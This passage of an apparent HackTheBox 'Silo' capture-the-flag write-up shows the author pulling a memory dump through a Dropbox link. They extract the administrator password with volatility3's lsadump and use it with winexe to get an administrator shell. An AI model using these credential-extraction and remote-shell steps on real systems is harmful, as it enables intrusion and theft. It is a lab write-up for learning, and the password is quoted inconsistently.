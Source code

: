 ```bash
C:\Users\Phineas\Desktop>type "Oracle issue.txt"
type "Oracle issue.txt"
Support vendor engaged to troubleshoot Windows/Oracle performance issue (full mem dump requested):

Dropbox link provided to vendor (and password under separate cover).

Dropbox link 
https://www.dropbox.com/sh/69skryzfszb7elq/AADZnQEbbqDoIf5L2d0PBxENa?dl=0

link password:
£%Hm8646uC$
```

This is a full memory dump, which may contain a password. I download and extract the dump file. To analyze it, I use volatility:

[volatility3](https://pypi.org/project/volatility3/)

So I use volatility3 to "decode" the memory dump file:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/silo]
└─$ python3 /tools/volatility3/vol.py -f SILO-20180105-221806.dmp lsadump
---snip---
Key     Secret  Hex

DefaultPassword DoNotH@ckMeBro! 1e 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 44 00 6f 00 4e 00 6f 00 74 00 48 00 40 00 63 00 6b 00 4d 00 65 00 42 00 72 00 6f 00 21 00 00 00
DPAPI_SYSTEM    ,Ï%14®C-¬ò§tmC¨¦©Bb÷UpH»}þyI½      2c 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 01 00 00 00 cf 25 94 31 34 9e ae 43 2d 8b 87 ac f2 a7 74 1c 6d ec 1c 04 08 43 a8 a6 a9 42 62 f7 55 70 48 bb 17 7d 82 fe 79 49 02 bd 00 00 00 00
```

So the password is `DoNotH@ackMeBro!`.

With the tool winexe, I can spawn a shell as administrator:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/silo]
└─$ winexe -U Administrator //silo.htb cmd.exe 
Enter password: DoNotH@ackMeBro!
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
silo\administrator

C:\Windows\system32>
```

And a shell as administrator spawns. The password was correct.

## Root Flag

---
